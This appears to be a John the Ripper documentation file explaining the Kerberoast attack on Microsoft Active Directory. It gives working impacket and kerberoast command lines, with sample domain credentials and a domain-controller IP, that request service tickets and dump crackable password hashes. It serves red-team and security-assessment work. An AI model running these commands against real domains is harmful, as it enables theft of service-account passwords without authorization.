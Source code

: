"THE BEER-WARE LICENSE" (Revision 42)
=====================================
<jean-christophe.delaunay (at) synacktiv.com> wrote this file.  As long as you
retain this notice you can do whatever you want with this stuff. If we meet
some day, and you think this stuff is worth it, you can buy me a beer in
return.   Fist0urs


Cracking Kerberos Ticket Granting Service (TGS) tickets within _Microsoft Active Directory_
===========================================================================================

(Skip to part "How to retrieve TGS tickets" if you just want to know how to get TGS to crack).

What is it
----------

Within a _Micorosft Active Directory_ environment, registered services (as MsSQL or so) rely on a domain account in order to be functional.
This domain account should be a service account but administrators can provided whichever account they want provided that it has sufficient rights.
Such specific accounts are easily identifiable by their LDAP attribute _servicePrincipalName_ (SPN) and can be listed by *any authenticated user* in the domain (whatever are his rights in the domain).
Furthermore any authenticated can request a TGS ticket for these accounts. Nevertheless, if one can request such tickets, it does not mean that he would be able to impersonate these accounts.
Indeed, the important part assuring that a user submitting a ticket is its legit owner is encrypted with a key. This key is derived from a secret only known by the legit account which is its **domain account password**. This attack is known as "Kerberoast" and was discovered by Tim Medin.

So, having a valid domain user, one can request tickets for accounts having a SPN and try to retrieve the corresponding passwords.

Algorithm details
-----------------

_Active Directory_ offers 4 algorithms to generate the encryption key:

* DES (disabled by default, not really usefull)
* RC4-HMAC-MD5 (enctype 23)
* AES128-CTS-HMAC-SHA1-96 (enctype 17) - with 4096 PBKDF2 HMAC-SHA1 iterations
* AES256-CTS-HMAC-SHA1-96 (enctype 18) - same number of algo/iterations

At the moment only etype 23 is implement within john but etype 17 and 18 are yet to come.

How to retrieve TGS tickets
---------------------------

_GetUserSPNs.py_ from [impacket](https://github.com/SecureAuthCorp/impacket) by @asolino permits to obtain these tickets:

```

usage: GetUserSPNs.py [-h] [-target-domain TARGET_DOMAIN] [-request]
                      [-request-user username] [-save]
                      [-outputfile OUTPUTFILE] [-debug]
                      [-hashes LMHASH:NTHASH] [-no-pass] [-k]
                      [-aesKey hex key] [-dc-ip ip address]
                      target

Queries target domain for SPNs that are running under a user account

positional arguments:
  target                domain/username[:password]

```

Provided my domain is CONTOSO, username is "fistouille" and password "kariontounu", requesting tickets would be as follows:

```

$ python GetUserSPNs.py -target-domain CONTOSO -request -outputfile KRB5TGS.dump CONTOSO/fistouille:kariontounu

```

**_KRB5TGS.dump_ now contains ready-to-crack hashes for both JtR and hashcat**

Another tool, [kerberoast](https://github.com/skelsec/kerberoast) from @skelsec, offers the ability to retrieve such tickets (among many other things).

You can get it from [github](https://github.com/skelsec/kerberoast) or install it with **pip3** (_Python 3.6_ is required):

```

$ git clone https://github.com/skelsec/kerberoast
$ python3 setup.py install

OR

$ pip3 install -r requirements.txt
$ pip3 install kerberoast

```

Usage:

```

usage: kerberoast.py [-h] [-v]
                     {ldap,brute,asreproast,spnroast,spnroast-sspi,auto} ...

Tool to perform kerberoast attack against service users in MS Active Directory

positional arguments:
  {ldap,brute,asreproast,spnroast,spnroast-sspi,auto}
                        commands
    ldap                Enumerate potentially vulnerable users via LDAP
    brute               Enumerate users via brute-forcing kerberos service
    asreproast          Perform asrep roasting
    spnroast            Perform spn roasting (aka kerberoasting)
    spnroast-sspi       Perform spn roasting (aka kerberoasting)
    auto                Just get the tickets already. Only works on windows
                        under any domain-user context

```

Provided the aforementioned information plus a _Domain Controller_ IP/FQDN (eg. 10.123.42.42), we can request tickets as follows:

```

# we first list all user accounts having an SPN
$ python3 kerberoast.py ldap all CONTOSO/fistouille:kariontounu@10.123.42.42 -o ldapenum

# we then ask for TGS for these accounts
$ python3 kerberoast.py spnroast CONTOSO/fistouille:kariontounu@10.123.42.42 -t ldapenum_spn_users.txt

```

**_ldapenum_spn_users.txt_ now contains ready-to-crack hashes for both JtR and hashcat**

Finally, _kerberoast_ python tool also implements Windows implicit authentication mechanism which is really useful during _Red Team_ security assessments.